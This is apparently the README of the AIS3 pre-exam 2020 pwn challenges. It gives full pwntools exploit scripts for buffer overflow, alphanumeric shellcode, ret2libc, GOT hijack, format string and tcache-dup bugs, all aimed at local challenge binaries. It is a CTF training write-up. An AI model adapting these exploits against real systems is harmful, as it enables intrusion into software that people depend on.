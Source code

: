 # AIS3 pre-exam 2020

## Setup

```
docker-compose up --build -d
```

(Optional) If you want to rebuild the challenges, check the `Makefile` and run:

```
make
```

## Challenge

### 👻 BOF

> buffer overflow

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The same as the challenge last year and check out the awesome writeup [here](https://github.com/yuawn/ais3-2019-pre-exam#bof---139-solves).

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10000

r = remote(ip, port)
# r = process("./bof")

context.arch = "amd64"

ret = 0x400699
shell = 0x400687

r.sendlineafter(".", 'a' * 0x38 + flat(ret, shell))

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 📃 Nonsense

> alphanumeric shellcode, out of bounds

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

#### Analysis

- main

Read the input in `unk_601100` and `unk_6010A0`, and then call `sub_400698`. If the return value is not zero it will take `unk_6010A0` as function pointer and call it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  Z5nobufv();
  puts("Welcome to Rick and Morty's crazy world.");
  puts("What's your name?");
  read(0, &unk_601100, 0x10uLL);
  puts("Rick's stupid nonsense catchphrase is \"wubba lubba dub dub\".");
  puts("What's yours?");
  read(0, &unk_6010A0, 0x60uLL);
  if ( (unsigned int)sub_400698() )
    ((void (*)(void))unk_6010A0)();    // run shellcode
  else
    puts("Ummm, that's totally nonsense.");
  return 0LL;
}
```

- sub_400698

Check `unk_6010A0` contains only printable ASCII characters; in the meantime, check `byte_601040` "wubbalubbadubdub" string and it will cause out-of-bounds read. Dig into it. And you will find out that it will compare with `unk_601100` which you can control when it reads data out of bounds.

```c
__int64 sub_400698()
{
  int i; // [rsp+0h] [rbp-Ch]
  int v2; // [rsp+4h] [rbp-8h]
  int j; // [rsp+8h] [rbp-4h]

  for ( i = 0; i <= 95; ++i )
  {
    if ( byte_6010A0[i] <= 31 )
      return 0LL;
    v2 = 1;
    for ( j = 0; j <= 15; ++j )
    {
      if ( byte_6010A0[i + j] != byte_601040[j] )    // OOB read
        v2 = 0;
    }
    if ( v2 )
      return 1LL;
  }
  return 0LL;
}
```

#### Vulnerability

- the user input (`unk_601100` and `unk_6010A0`) are in RWX segment
- out-of-bounds read in `sub_400698`

#### Idea

Write the alphanumeric shellcode (< 96 bytes) and leverage OOB read to bypass the check if you need it.

You can see the available x86-64 instructions [here](https://nets.ec/Alphanumeric_shellcode) and construct the shellcode to get the shell. (there would be many ways to achieve it 😳)

My solution based on the [shellcode](https://hama.hatenadiary.jp/entry/2017/04/04/190129) (60 bytes) with the modification to fix the address of “/bin/sh” and append the nonsense string at the end.

**RR**Yh00AAX1A0hA004X1A4hA00AX1A8QX4**t**Pj0X40PZPjAX4znoNDnRYZnCXAwubbalubbadubdub

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10001

r = remote(ip, port)
# r = process("./nonsense")

context.arch = "amd64"

# https://hama.hatenadiary.jp/entry/2017/04/04/190129
payload = "RRYh00AAX1A0hA004X1A4hA00AX1A8QX4tPj0X40PZPjAX4znoNDnRYZnCXA"
nonsense = "wubbalubbadubdub"

name = "haha"
payload += nonsense

r.sendafter("?", name)
r.sendafter("?", payload)
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔫 Portal gun

> return oriented programming, ret2libc

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10002

r = remote(ip, port)
# r = process("./portal_gun", env = {"LD_PRELOAD": "./hook.so"})
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

main = 0x4006fb
puts_plt = 0x400560
puts_got = 0x601018
pop_rdi = 0x4007a3

payload = 'a' * 120 + flat(pop_rdi, puts_got, puts_plt, main)

r.sendlineafter("?", payload)
r.recvline()
libc_base = u64(r.recvline()[:6].ljust(8, '\x00')) - libc.sym.puts

info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c
payload = 'a' * 120 + flat(magic)
r.sendlineafter("?", payload)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🏫 Morty school

> out of bounds, GOT hijack

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10003

r = remote(ip, port)
# r = process("./morty_school")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

r.recvuntil(": ")
libc_base = int(r.recvline()[:-1], 16) - libc.sym.puts
info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c

# (0x4005c0 - 0x6020a0) / 0x18
r.sendlineafter("teach?", str(-87668))
r.sendafter(":", p64(magic))
r.sendafter(":", "\x00" * 0x100)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔮 Death crystal

> format string

#### Protection

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10004

r = remote(ip, port)
# r = process("./death_crystal")

context.arch = "amd64"

payload = "%d" * 11 + ".%llu"
r.sendlineafter(":", payload)

r.recvline()
code_base = int(r.recvline().split(".")[1]) - 0xb20
info("code base: {}".format(hex(code_base)))

flag = code_base + 0x202060
payload = flat("%d" * 8, ".%s.aaaa", p64(flag))
r.sendlineafter(":", payload)

r.interactive()
```

</details>

### 📦 Meeseeks box

> use after free, tcache dup

#### Protection

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10005

r = remote(ip, port)
# r = process("./meeseeks_box")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

def Create(sz, data):
    r.sendlineafter(">", "1")
    r.sendlineafter(":", str(sz))
    r.sendlineafter(":", data)

def Show(idx):
    r.sendlineafter(">", "2")
    r.sendlineafter(":", str(idx))

def Delete(idx):
    r.sendlineafter(">", "3")
    r.sendlineafter(":", str(idx))

# unsorted bin
Create(0x900, 'aaaa')
Create(0x20, 'bbbb')
Delete(0)
Show(0)

libc_base = u64(r.recvline()[1:7].ljust(8, '\x00')) - 0x3ebca0
libc.address = libc_base
info("libc base: {}".format(hex(libc_base)))
magic = libc_base + 0x10a38c

# tcache dup
Create(0x20, 'cccc')
Delete(2)
Delete(2)
Create(0x20, p64(libc.sym.__malloc_hook))
Create(0x20, 'dddd')
Create(0x20, p64(magic))

# trigger __malloc_hook and pop the shell
r.sendlineafter(">", "1")
r.sendlineafter(":", "hack")
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>
